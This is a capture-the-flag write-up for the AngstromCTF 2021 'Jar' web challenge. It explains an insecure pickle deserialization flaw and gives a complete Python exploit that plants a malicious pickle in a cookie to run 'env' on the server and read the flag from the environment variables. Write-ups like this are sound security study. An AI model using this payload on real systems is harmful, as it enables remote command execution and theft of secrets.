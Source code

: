 # AngstromCTF2021 Jar
By looking at the sourcecode we see that the package `pickle` i imported and used for deserialization. Looking at the `pickle` docs we find the warning:
```
Warning: The pickle module is not secure. Only unpickle data you trust.
```
We then notice that the data isn't sanitized. This enables us to use a deserialization attack to gain RCE.

We notice in the dockerfile that the flag is set as an environmental variable. Therefore by printing the environmental variables we can get the flag.

Coding up the payload we get:
```
# Web application is vulnerable to a deserialization attack
# https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565
import os
import pickle
import requests
import base64
import subprocess

# Class returns output of env when deserialized
class MyEvilPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, ('env', ))

# Wrap class in list so we can append things serverside
pickle_data = pickle.dumps([MyEvilPickle()])

# Handle encoding and remove b''
pickle_data = str(base64.b64encode(pickle_data))
pickle_data = pickle_data[2:-1]

url = "https://jar.2021.chall.actf.co/"

# Contents cookie will be deserialized on server
cookie = dict(contents=pickle_data)
session = requests.Session()
r = session.post(url+"/add", cookies=cookie, data={"item":"lol_hax"})

# Get and parse returned cookies
env_vars = session.cookies.get_dict()["contents"]
env_vars =  pickle.loads(base64.b64decode(env_vars))
env_vars = str(env_vars[0]).split("\\n")
# Find and print flag
for i in env_vars:
    if "actf{" in i:
        print(i)
```
And we find the flag: actf{you_got_yourself_out_of_a_pickle}
